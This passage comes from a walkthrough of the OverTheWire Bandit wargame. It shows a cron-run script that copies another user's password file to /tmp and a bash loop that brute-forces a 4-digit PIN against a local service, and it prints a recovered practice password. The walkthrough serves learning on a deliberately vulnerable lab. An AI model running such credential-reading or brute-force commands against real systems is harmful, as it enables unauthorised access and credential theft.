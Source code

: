 Since these are executed by bandit24, the most obvious tactic is to drop a script that will output bandit24's password. In order to retrieve it, we'll output to a file in our previously created, world-readable `/tmp` directory.

The script:

```
cat /etc/bandit_pass/bandit24 > /tmp/588e5fd1b/bandit24
```

Create the script, set its permissions as executable, and wait for it to disappear.  A good way to do this is using the `watch` command but that's hard to depict here.

```
bandit23@melinda:/var/spool/bandit24$ vim mmc.sh
[...]
bandit23@melinda:/var/spool/bandit24$ chmod +x mmc.sh 
bandit23@melinda:/var/spool/bandit24$ ls
mmc.sh
bandit23@melinda:/var/spool/bandit24$ ls
mmc.sh
bandit23@melinda:/var/spool/bandit24$ ls
bandit23@melinda:/var/spool/bandit24$
```

Check for output and poof!

```
bandit23@melinda:/var/spool/bandit24$ cat /tmp/588e5fd1b/bandit24
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

# Level 24 > Level 25

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinaties, called brute-forcing.

For this we'll use the following script.

```
#!/bin/bash

for i in {0000..9999}
do
    echo "$i *************"
    echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $i" | ncat 127.0.0.1 30002
done
```

I did not know if `bash` would accept the quadruple 0's, but a quick test on the side shows it works.

The first `echo` is to mark our place in the bruteforce, in case that isn't clear from any output returned by the service.  Run the script and use the `tee` command to output to `stdout` while saving a copy to disk.
